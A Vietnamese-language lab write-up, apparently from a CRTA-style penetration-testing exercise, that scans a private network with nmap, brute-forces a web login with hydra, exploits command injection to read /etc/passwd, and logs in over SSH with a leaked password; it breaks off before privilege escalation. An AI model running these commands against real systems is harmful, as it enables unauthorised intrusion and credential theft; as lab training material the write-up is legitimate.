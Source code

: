 Ta không có IP target sẵn như HTB, THM hay các CTF khác. Nên ta cần quét trước:
```Bash
nmap -sN 192.168.80.0/24
```
Ta đã xác định được một IP thuộc dãy External IP
```Bash
Nmap scan report for 192.168.80.1
Host is up (0.26s latency).
All 1000 scanned ports on 192.168.80.1 are in ignored states.
Not shown: 1000 open|filtered tcp ports (no-response)

Nmap scan report for 192.168.80.10
Host is up (0.37s latency).
All 1000 scanned ports on 192.168.80.10 are in ignored states.
Not shown: 1000 open|filtered tcp ports (no-response)

Nmap done: 256 IP addresses (2 hosts up) scanned in 444.92 seconds
```
Ok, ta tìm được 2 IP thuộc dãy này. 192.168.80.1 chỉ mở ra trang của pfsense. Quét tiếp vào IP 192.168.80.10:
```Bash
nmap -p- -Pn $target -v -T5 --min-rate 1500 --max-rtt-timeout 500ms --max-retries 3 --open -A
```
```Bash
Discovered open port 22/tcp on 192.168.80.10
Discovered open port 80/tcp on 192.168.80.10
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
Có vẻ như chỉ có http và ssh. Ta thử truy cập vào web của dãy này:
![[CRTA_img1.png]]
Hmm, có vẻ ta cần kiểm tra source trước.
Nothing. Brute-forcing
```Bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $target http-post-form "/index.php:id=^USER^&password=^PASS^&remember=on:S=logout.php" -t 30 -V
```
Not working. Xin lỗi vì phải xem qua wu một chút =((
Có vẻ ta cần tận dụng chức năng đăng ký và đăng nhập của website.
Ta sẽ đăng ký một cred đơn giản là 123:123 ; ta sẽ truy cập được dashboard:
![[CRTA_img2.png]]
Có vẻ có một vài chức năng liên quan đến search, tôi nghĩ tôi sẽ tìm xem có bất kỳ lỗi SQL nào hay không, hoặc có thể là command injection.
Oke, ta có thể tìm email qua this one:
![[Pasted image 20250903195402.png]]
Một điều thú vị là nếu ta dùng Burp Suite hoặc CAIDO để xem respond website thì:
![[Pasted image 20250903195509.png]]
![[Pasted image 20250903201205.png]]
Gửi nó đến repeater và thử với lệnh "ls". Ta thấy respond trả về một danh sách các file. Thử truy cập chúng nào.
Có vẻ không có gì, thử dump vào /etc/passwd?![[Pasted image 20250903201451.png]]
Oh shiet, ta có thể tìm được privsec:
```Bash
privilege:x:1001:1001:Admin@962:/home/privilege:/bin/bash
```
Thử truy cập ssh nhỉ:
```Bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh privilege@$target 
The authenticity of host '192.168.80.10 (192.168.80.10)' can't be established.
ED25519 key fingerprint is SHA256:RHpGTqvkXkAP6/HA3vpHP8gkrtApbfyYYjteCh3N/TE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.80.10' (ED25519) to the list of known hosts.
privilege@192.168.80.10's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-67-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

273 updates can be applied immediately.
273 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

4 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Wed Sep  3 18:02:08 2025 from 10.10.200.80
privilege@ubuntu-virtual-machine:~$
```
Nice. Check quyền user trước nhé:
